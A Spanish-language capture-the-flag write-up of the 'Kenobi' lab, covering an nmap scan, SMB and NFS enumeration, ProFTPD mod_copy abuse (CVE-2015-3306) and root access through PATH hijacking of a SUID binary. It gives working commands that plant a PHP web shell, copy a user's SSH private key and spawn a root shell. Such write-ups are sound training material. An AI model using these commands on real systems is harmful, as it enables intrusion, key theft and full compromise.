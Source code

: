 # Kenobi
Room interesante enumeracion al principio , exploit diferente  a lo común ya que no es tirar el exploit del CVE, si no mas bien saber como usarlo a tu favor y privesc personalizada

Interesntes: CVE 2015-3306 , Path manipulation
## Initial Scan 
```
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      35429/udp   mountd
|   100005  1,2,3      38895/udp6  mountd
|   100005  1,2,3      46771/tcp6  mountd
|   100005  1,2,3      47749/tcp   mountd
|   100021  1,3,4      37411/tcp6  nlockmgr
|   100021  1,3,4      45275/tcp   nlockmgr
|   100021  1,3,4      46996/udp   nlockmgr
|   100021  1,3,4      56538/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     2-3 (RPC #100227)
34743/tcp open  mountd      1-3 (RPC #100005)
39631/tcp open  mountd      1-3 (RPC #100005)
45275/tcp open  nlockmgr    1-4 (RPC #100021)
47749/tcp open  mountd      1-3 (RPC #100005)

```
## Enum
### FTP
Version vulnerable a CVE 2015-3306 
```
site cpfr /proc/self/cmdline
site cpto /tmp/.<?php passthru($_GET['cmd']);?>
site cpfr /tmp/.<?php passthru($_GET['cmd']);?>
site cpto /var/www/html/backdoor.php
```
Probamos eso pero no podemos hacer la copia a final, aun asi sabemos que es vulnerable asi que no esta todo perdido, exploremos esto mas tarde
### SMB
Veamos los shares
```
	print$          Disk      Printer Drivers
	anonymous       Disk      
	IPC$            IPC       IPC Service (kenobi server (Samba, Ubuntu))
```
Y nos descargamos todo lo que haya en anonymous
```
 smbget smb://10.10.117.123//anonymous -R
```
Y obtenemos un log.txt, donde hay un par de lineas  interesantes
```
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
```
### Mountd
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount IP
```
Veremos que esta montado /var

## Explotation

El plan es el siguiente, copiamos la clave a /var/tmp y montamos /vat/tmp en nuestra máquina
### FTP
```
ftp> site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
ftp> site cpto /var/tmp/id_rsa
```
### Montaje
```
sudo mount 10.10.117.123:/var kenobi/
```
### SSH
```
ssh -i id_rsa kenobi@10.10.117.123
```
## Privesc
Buscamos SUID binarys y encontramos uno poco comun
```
/usr/bin/menu
```
Mirando las strings encontramos las 3 siguientes
```
curl -I localhost
uname -r
ifconfig
```
Dado que los comandos no estan con su ruta al completo podemos ejecutar un PATH manipulation
```
cp /bin/bash /tmp/ifconfig
PATH=/tmp:$PATH
 ./../usr/bin/menu 
```
Y ya tenemos shell como root
